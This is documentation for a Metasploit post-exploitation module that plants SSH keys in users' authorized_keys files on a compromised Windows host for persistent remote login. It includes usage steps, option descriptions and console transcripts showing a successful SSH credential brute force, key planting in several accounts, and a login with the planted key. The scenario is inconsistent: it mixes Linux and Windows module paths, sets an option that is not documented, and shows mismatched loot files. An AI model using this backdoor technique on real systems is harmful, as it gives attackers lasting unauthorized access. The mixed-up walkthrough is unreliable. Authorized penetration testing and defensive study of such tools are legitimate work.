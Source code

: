 This module will add an SSH key to a specified user (or all), to allow remote login on the victim via SSH at any time.

### Creating A Testing Environment

  This module has been tested against:

1. Windows 10, 1809

## Verification Steps

  1. Start msfconsole
  2. Exploit a box via whatever method
  3. Do: `use post/windows/manage/sshkey_persistence`
  4. Do: `set session #`
  5. Optional Do: `set USERNAME`
  6. Optional Do: `set SSHD_CONFIG`
  7. Do: `run`


## Options

  **SSHD_CONFIG**

  Location of the sshd_config file on the remote system.  We use this to determine if the authorized_keys file location has changed on the system.  If it hasn't, we default to .ssh/authorized_keys

  **USERNAME**

  If set, we only write our key to this user.  If not, we'll write to all users

  **PUBKEY**

  A public key to use.  If not provided, a pub/priv key pair is generated automatically
  
  **ADMIN_KEY_FILE**
  
  Location of public keys for Administrator level accounts
  
  **ADMIN**
  
  Add public keys for gaining access to Administrator level accounts
  
  **EDIT_CONFIG**
  
  Allow the module to edit the sshd_config to enable public key authentication 

## Scenarios

### Windows 10, 1809

Get initial access

    msf auxiliary(ssh_login) > exploit
    
    [*] SSH - Starting bruteforce
    [+] SSH - Success: 'tiki:tiki' 'uid=1000(tiki) gid=1000(tiki) groups=1000(tiki),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),117(lpadmin),118(sambashare) Linux tikiwiki 4.4.0-21-generic #37-Ubuntu SMP Mon Apr 18 18:33:37 UTC 2016 x86_64 x86_64 x86_64 GNU/Linux '
    [!] No active DB -- Credential data will not be saved!
    [*] Command shell session 1 opened (192.168.2.229:38886 -> 192.168.2.190:22) at 2016-06-19 09:52:48 -0400
    [*] Scanned 1 of 1 hosts (100% complete)
    [*] Auxiliary module execution completed

Use the post module to write the ssh key

    msf auxiliary(ssh_login) > use post/linux/manage/sshkey_persistence 
    msf post(sshkey_persistence) > set SESSION 1
    SESSION => 1
    msf post(sshkey_persistence) > set CREATESSHFOLDER true
    CreateSSHFolder => true    
    msf5 post(windows/manage/sshkey_persistence) > run
    
    [*] Checking SSH Permissions
    [*] Authorized Keys File: .ssh/authorized_keys
    [+] Storing new private key as /Users/dwelch/.msf4/loot/20200205161837_default_172.16.128.153_id_rsa_706898.txt
    [*] Adding key to C:\Users\Dean Welch\.ssh\authorized_keys
    [+] Key Added
    [*] Adding key to C:\Users\testAccount\.ssh\authorized_keys
    [+] Key Added
    [*] Post module execution completed

Verify our access works

    ssh -i /Users/dwelch/.msf4/loot/20200205153101_default_172.16.128.153_id_rsa_457054.txt testAccount@172.16.128.153
    
    Microsoft Windows [Version 10.0.18362.592]
    (c) 2019 Microsoft Corporation. All rights reserved.
    
    testaccount@DESKTOP-V8L6UUD C:\Users\testAccount>

